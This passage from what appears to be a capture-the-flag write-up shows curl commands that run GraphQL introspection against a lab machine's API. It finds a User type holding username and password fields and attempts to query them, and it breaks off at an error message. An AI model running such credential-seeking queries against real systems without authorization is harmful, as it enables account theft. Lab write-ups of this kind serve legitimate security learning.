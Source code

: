 I’ll switch to `curl` here to hit the API. `-s` will silence the progress bar.
`-H "Content-Type: application/json"` is necessary for the API to handle the
json data. Then I’ll use `-d '{ "query": "[query]" }'` to send the query.
Finally, I’ll use `jq` to pretty print the results.

First I’ll get the fields from the schema:

    
    
    root@kali# curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }' | jq  -c .
    {"data":{"__schema":{"queryType":{"name":"Query","fields":[{"name":"user","description":""}]}}}}
    

I’ll also get the types of User, String, etc:

    
    
    root@kali# curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { types { name } } }" }' | jq -c .
    {"data":{"__schema":{"types":[{"name":"Query"},{"name":"User"},{"name":"String"},{"name":"__Schema"},{"name":"__Type"},{"name":"__TypeKind"},{"name":"Boolean"},{"name":"__Field"},{"name":"__InputValue"},{"name":"__EnumValue"},{"name":"__Directive"},{"name":"__DirectiveLocation"}]}}}
    

I’ll get the fields asscoaited with the User type:

    
    
    root@kali# curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }' | jq .
    {
      "data": {
        "__type": {
          "name": "User",
          "fields": [
            {
              "name": "username"
            },
            {
              "name": "password"
            }
          ]
        }
      }
    }
    

I’ll try to get the values

    
    
    root@kali# curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ User { username password } }" }' | jq  -c .
    {"errors":[{"message":"Cannot query field \"User\" on type \"Query\". Did you mean \"user\"?","locations":[{"line":1,"column":3}]}]}
    

Not sure why that returned error, but it offered a suggestion:

    